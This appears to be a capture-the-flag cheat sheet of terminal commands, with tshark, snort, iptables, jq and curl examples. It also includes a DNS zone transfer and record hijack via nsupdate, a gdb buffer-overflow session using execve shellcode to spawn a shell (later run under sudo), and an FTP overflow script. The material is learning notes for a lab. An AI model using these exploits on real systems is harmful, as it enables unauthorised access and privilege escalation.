 # Various Terminal commands

### How do you find and follow a tcp stream with tshark?
```
tshark -r snort.log.pcap -Y "http.user_agent contains Xenomorph" -T fields -e tcp.stream
tshark -r snort.log.pcap -z follow,tcp,ascii,5
```

### What is an example snort rule to alert on traffic with certain content or user_agent?
```
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:'YO WTF'; content:'Xenomorph'; sid:1000001; rev:1;classtype:trojan-activity)
```
`pcre` can be used instead of `content` to perform a regular expression filter

### What is scalpel?
It's a way to use extract files from an image binary if you know the headers and footers of the file you're looking for. It works best if you use the real hex values that you're trying to find.

### How do you use dig to perform a domain transfer?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
dig @127.0.0.1 norehca.planet axfr -b 127.34.243.1
```

### How do you use nsupdate to modify subdomain information?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
$ nsupdate
> server 127.0.0.1
> local 127.34.0.1
> update delete  hive.norehca.planet. A
> update add hive.norehca.planet. 600 A 127.0.0.1
> send
```

### Dump of various iptables commands:
```
1. Set the default policies to DROP for 
   the INPUT,FORWARD and OUTPUT chains.

sudo iptables -P INPUT DROP
sudo iptables -P FORWARD DROP
sudo iptables -P OUTPUT DROP

2. Create a rule to LOG all new SSH 
   connection attempts.
   
sudo iptables -I OUTPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"
sudo iptables -I INPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"

3. Create a rule to ACCEPT all connections 
   that are ESTABLISHED,RELATED on the INPUT
   and the OUTPUT chains.

sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

4. Create a rule to allow only remote source 
   ip address 172.18.0.222 to access the local
   SSH server on (port 22).

sudo iptables -A INPUT -p tcp -s 172.18.0.222 --dport 22 -j ACCEPT

5. Create a rule to allow any remote ip to 
   access local tcp servers on ports 25 and 80.

sudo iptables -A INPUT -p tcp --dport 25 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEP

6. Create a rule applied to the INPUT chain
   to ACCEPT all traffic from the lo interface.

sudo iptables -A INPUT -i lo -j ACCEPT

7. Create a rule to allow UDP port 53 and TCP 
   port 80 connections going out (OUTPUT).

sudo iptables -A OUTPUT -p udp --dport 53 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT
```

### How do you save and use cookies with cURL?
```
curl localhost/cache --cookie-jar cookie.txt
curl localhost/upload --cookie cookie.txt
```

### How do you get and delete files from an FTP server with cURL?
```
curl -u ftpuser:ftppass ftp://127.0.0.1/filename1 -O filename1
curl ftp://ftpuser:ftppass@localhost -Q "DELE xenomorph1"
```

### How do you analyze a pcap file with an SSL keylog file?
```
tshark -r <capture_file>  -Y <wireshark_filter>  -o ssl.keylog_file:client_random.log
```

### How can you use scapy to realign the ports for server and client so that tshark can analyze the file?
```
#!/usr/bin/python
from scapy.all import *

packets = rdpcap('covert_channel.pcap')
for packet in packets:
  if packet[IP].src == '10.124.245.32':
    packet[TCP].sport = 443
    packet[TCP].dport = 59292
  else:
    packet[TCP].sport = 59292
    packet[TCP].dport = 443

wrpcap('fixed_ports.pcap', packets)
```

### Give an example of using gdb and using a payload from shell-storm to pop a shell by overwriting EIP and directing code to run the payload:
```
weyuser@14c7b2eb3e7f:~$ gdb xeno_scanner.elf 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from xeno_scanner.elf...(no debugging symbols found)...done.
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" is NOT infected with Xeno-DNA.
Program received signal SIGSEGV, Segmentation fault.
0xffffd690 in ?? ()
(gdb) info registers
eax            0x0      0
ecx            0x7fffffbb       2147483579
edx            0xf7fcd870       -134424464
ebx            0xffffd6f0       -10512
esp            0xffffd6c0       0xffffd6c0
ebp            0x54535251       0x54535251
esi            0xf7fcc000       -134430720
edi            0xf7fcc000       -134430720
eip            0xffffd690       0xffffd690
eflags         0x10286  [ PF SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" IS infected with xeno-DNA. Please report to the medical bay for immediate extraction
process 35 is executing new program: /bin/dash
$ ls
HELP  xeno_scanner.c  xeno_scanner.elf
$ whoami
weyuser
```

### After finding the correct payload, how can you execute a file with the payload?
```
weyuser@8914c8642587:~$ sudo ./xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80AAAAAAAAAAAAAAAAAAAA\xb1\xd6\xff\xffAAAAAAAA")
```

### Give an example jq query to filter entries based on a field matching an array of names:
```
jq '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) ' crew.json
```

### Give an example jq query to combine fields and print them in CSV format:
```
jq -cr '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) | [.latitude,.longitude] | @csv' crew.json
```

### Give an example of a scripted FTP command:
```
#!/bin/bash
HOST='127.0.0.1'
USER='root'
PASSWD=$(python -c "print('pass'+10000*'A')")
ftp -n -v $HOST << EOT
user $USER $PASSWD
ls
EOT
```

### What command helps to find non-standard open ports?
```
nmap -sV --open -p10-4000 mine.wey-tech.com
```

### After finding an smbd from nmap, what executable can help uncover more info?
```
nmap <host> -sV -sC 
smbclient -L 10.3.3.45
```
